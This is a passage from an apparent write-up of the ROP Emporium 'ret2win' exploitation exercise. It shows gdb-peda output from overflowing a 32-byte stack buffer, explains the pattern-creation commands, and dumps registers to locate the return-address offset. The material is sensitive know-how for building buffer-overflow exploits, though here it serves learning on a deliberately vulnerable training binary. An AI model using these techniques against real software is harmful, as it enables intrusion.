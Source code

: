 ```bash
Starting program: /home/robin/ROP-Emporium/ret2win < input
ret2win by ROP Emporium
64bits

For my first trick, I will attempt to fit 50 bytes of user input into 32 bytes of stack buffer;
What could possibly go wrong?
You there madam, may I have your input please? And don't worry about null bytes, we're using fgets!

> 
Program received signal SIGSEGV, Segmentation fault.

```

##### Command Explaination

* `gdb ret2win` : This will open the gdb with ret2win binary for the processing.
* `pattern_create 100 input` : This will create a offset pattern of the length provided, in our case it's 100. `input` is the file where the offset willbe written.
* `r < input` : This will run the binary ret2win and gives the `input` file as input.


# Analyzing the offsets

Let's see the peda's work and informatio it provided us:-

```bash
[----------------------------------registers-----------------------------------]
RAX: 0x7fffffffde10 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAb")
RBX: 0x0 
RCX: 0x1f 
RDX: 0x7ffff7dd18d0 --> 0x0 
RSI: 0x7fffffffde10 ("AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAb")
RDI: 0x7fffffffde11 ("AA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAb")
RBP: 0x6141414541412941 ('A)AAEAAa')
RSP: 0x7fffffffde38 ("AA0AAFAAb")
RIP: 0x400810 (<pwnme+91>:	ret)
R8 : 0x0 
R9 : 0x0 
R10: 0x602010 --> 0x0 
R11: 0x246 
R12: 0x400650 (<_start>:	xor    ebp,ebp)
R13: 0x7fffffffdf20 --> 0x1 
R14: 0x0 
R15: 0x0
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x400809 <pwnme+84>:	call   0x400620 <fgets@plt>
   0x40080e <pwnme+89>:	nop
   0x40080f <pwnme+90>:	leave  
=> 0x400810 <pwnme+91>:	ret    
   0x400811 <ret2win>:	push   rbp
   0x400812 <ret2win+1>:	mov    rbp,rsp
   0x400815 <ret2win+4>:	mov    edi,0x4009e0
   0x40081a <ret2win+9>:	mov    eax,0x0
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffde38 ("AA0AAFAAb")
0008| 0x7fffffffde40 --> 0x400062 --> 0x1f8000000000000 
0016| 0x7fffffffde48 --> 0x7ffff7a05b97 (<__libc_start_main+231>:	mov    edi,eax)
0024| 0x7fffffffde50 --> 0x1 
0032| 0x7fffffffde58 --> 0x7fffffffdf28 --> 0x7fffffffe2b4 ("/home/robin/ROP-Emporium/ret2win")
0040| 0x7fffffffde60 --> 0x100008000 
0048| 0x7fffffffde68 --> 0x400746 (<main>:	push   rbp)
0056| 0x7fffffffde70 --> 0x0 
[------------------------------------------------------------------------------]
```